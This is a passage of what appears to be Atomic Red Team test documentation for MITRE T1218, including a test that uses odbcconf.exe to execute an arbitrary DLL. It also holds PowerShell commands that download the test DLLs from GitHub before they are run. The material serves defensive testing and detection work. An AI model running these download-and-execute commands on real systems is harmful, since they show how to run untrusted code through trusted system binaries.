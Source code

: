 ##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #7 - Odbcconf.exe - Execute Arbitrary DLL

Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|

#### Attack Commands: Run with `command_prompt`!

```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```

#### Dependencies:  Run with `powershell`!

##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```
